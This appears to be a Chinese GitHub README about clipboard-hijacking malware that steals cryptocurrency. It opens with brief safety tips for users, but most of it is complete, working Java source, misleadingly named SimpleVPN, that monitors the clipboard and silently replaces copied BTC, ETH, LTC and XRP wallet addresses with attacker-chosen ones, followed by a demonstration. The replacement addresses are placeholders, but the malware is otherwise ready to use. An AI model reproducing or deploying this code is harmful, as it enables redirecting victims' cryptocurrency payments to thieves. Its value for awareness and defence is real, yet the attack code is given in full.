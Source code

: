 #### 监控剪贴板劫持用户复制内容！盗刷虚拟货币！教你复现剪贴板病毒！Java如何监控剪贴板？剪贴板可以让你倾家荡产！剪贴板这样使用才是最安全的！最近币圈很多人中招的剪贴板病毒，盗取用户加密货币资产，这个病毒很早就有了，它会自己自动检查用户剪切 复制 的内容，如果你的剪切复制内容里有地址的格式，它就会自动把这地址换成盗窃者的地址。如果你平时不够细心的话，那你就会容易中招。实在是卑鄙无耻下流也。

## 剪贴板安全正确的使用方式：

**1.银行卡号、转账地址、手机号等信息不要一次性复制完，分段复制可以很大程度上避免被窃取。**

**2.复制密钥、密码等信息在复制前插入几个字符达到混淆真实密码的目的，粘贴完后再删除对应的字符即可。**

**3.填写收款账号等表单时，转账核对一下有关于钱相关的信息，不要直接就保存了或转账了。**

视频教程：https://youtu.be/QEpFjFr_ddA?si=Uu8Xvwzyl6mI2YNi
****

Java监控剪贴板代码（监控复制的内容是否是虚拟货币地址）：

```java

// 监听剪贴板并且替换
public class SimpleVPN {
    private static final Pattern BTC_PATTERN = Pattern.compile("(bc1|[13])[a-zA-HJ-NP-Z0-9]{25,39}");
    private static final Pattern ETH_PATTERN = Pattern.compile("0x[a-fA-F0-9]{40}");
    private static final Pattern LTC_PATTERN = Pattern.compile("[LM3][a-km-zA-HJ-NP-Z1-9]{26,33}");
    private static final Pattern XRP_PATTERN = Pattern.compile("[rX][1-9A-HJ-NP-Za-km-z]{24,34}");
    private static boolean isUpdatingClipboard = false; // 解决无限循环问题
    public static void main(String[] args) {
        Clipboard clipboard = Toolkit.getDefaultToolkit().getSystemClipboard();
        Transferable previousContent = clipboard.getContents(null);
        while (true) {
            try {
                Thread.sleep(1000); // 每秒检查一次
                if (isUpdatingClipboard) {
                    isUpdatingClipboard = false; // 跳过本次循环，避免检测到自己修改的内容
                    continue;
                }
                Transferable currentContent = clipboard.getContents(null);
                if (currentContent != null) {
                    // **忽略非文本格式的数据**
                    if (!currentContent.isDataFlavorSupported(DataFlavor.stringFlavor)) {
                        continue;
                    }
                    String newText = (String) currentContent.getTransferData(DataFlavor.stringFlavor);
                    if (previousContent == null || !newText.equals(previousContent.getTransferData(DataFlavor.stringFlavor))) {
                        System.err.println("用户复制了内容: " + newText);
                        if (BTC_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到比特币(BTC)地址: " + newText);
                            setClipboardContent("AAAAA1eP5QGefi2DMPTfTL5SLmv7DivfNa"); // 修改剪贴板内容
                        } else if (ETH_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到以太坊(ETH)地址: " + newText);
                            setClipboardContent("AAAA2d35Cc6634C0532925a3b844Bc454e4438f44e"); // 修改剪贴板内容
                        } else if (LTC_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到莱特币(LTC)地址: " + newText);
                            setClipboardContent("AAAAx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq"); // 修改剪贴板内容
                        } else if (XRP_PATTERN.matcher(newText).matches()) {
                            System.out.println("检测到瑞波币(XRP)地址: " + newText);
                            setClipboardContent("AAAAeomae4FXwgQTJp9Rs64Qg9vDiTCdBv"); // 修改剪贴板内容
                        }
                        previousContent = clipboard.getContents(null); // 重新获取剪贴板内容，避免旧数据干扰
                    }
                }
            } catch (UnsupportedFlavorException e) {
                System.err.println("剪贴板数据格式不支持，跳过: " + e.getMessage());
            } catch (IOException e) {
                System.err.println("读取剪贴板数据时发生IO异常: " + e.getMessage());
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
        }
    }

    // 修改剪贴板内容
    public static void setClipboardContent(String text) throws InterruptedException {
        isUpdatingClipboard = true; // 标记为正在修改剪贴板，避免无限循环
        StringSelection selection = new StringSelection(text);
        Clipboard clipboard = Toolkit.getDefaultToolkit().getSystemClipboard();
        clipboard.setContents(selection, null);
        Thread.sleep(500);
        System.err.println("篡改剪贴板成功，成功修改为: " + text);
    }

}

```

测试：

假设你要往下面的虚拟货币地址转账

**比特币 (BTC) 收款地址**: `1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa`

**以太坊 (ETH) 收款地址**: `0x742d35Cc6634C0532925a3b844Bc454e4438f44e`

**莱特币 (LTC) 收款地址**: `LZ3nx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq`

**瑞波币 (XRP) 收款地址**: `rDsbeomae4FXwgQTJp9Rs64Qg9vDiTCdBv`

****

不法分子的虚拟货币地址

**比特币 (BTC) 收款地址**: `AAAAP1eP5QGefi2DMPTfTL5SLmv7DivfNa`

**以太坊 (ETH) 收款地址**: `AAAA2d35Cc6634C0532925a3b844Bc454e4438f44e`

**莱特币 (LTC) 收款地址**: `AAAAx3LhXqP1HYYNRuGH1cXBJHTYTPyxJq`

**瑞波币 (XRP) 收款地址**: `AAAAeomae4FXwgQTJp9Rs64Qg9vDiTCdBv`

****





****

#### 攻防无绝对，技术无好坏，在非安全的信息时代，众人皆在囚笼之中，关注牛马小试，让你一飞冲天！
 
****

- **Telegram(文件资源频道)：https://t.me/NiuMaXiaoShi**
- **Youtube：  https://www.youtube.com/@MeeGooBoo**
- **Twitter ( X ）：  https://x.com/MeeGooBoo**

****
- 需要联系我？请通过：https://t.me/MeeGooBoo
****

> [!CAUTION]
>
> 本仓库所有内容均来自互联网公开内容或本仓库所有者创作，请勿相信资源中的广告，主动联系你的都是骗子，提高智商谨防上当受诈！请勿利用本仓库实施违反任何适用法律法规等犯罪活动！本仓库所有者不对因使用本仓库内容导致的任何后果承担责任！

****

## 你的赞助是功德无量💰

> [!NOTE]
>
> 如果你觉得本仓库对你有帮助，你可以赞助我们一杯咖啡，鼓励我们继续维护下去。<br>
> 成为我的Patreon会员：https://www.patreon.com/MeeGooBoo/membership<br> 
> 通过Paypal支持我：https://paypal.me/MoGuoBiao<br>
> 通过比特币支持我：bc1qkwrq5plek62fmfaynyphfuuepm6cxd4fsh5wrp



<p align="center" >
    <img src="https://raw.githubusercontent.com/MeeGooBoo/2025/refs/heads/main/static/imgs/logo.png" width="150">
    <h3 align="center">牛马小试(莫国标)</h3>
    <p align="center">
        <img src="https://raw.githubusercontent.com/MeeGooBoo/2025/refs/heads/main/static/imgs/pays.png">
    </p>
</p>

****  
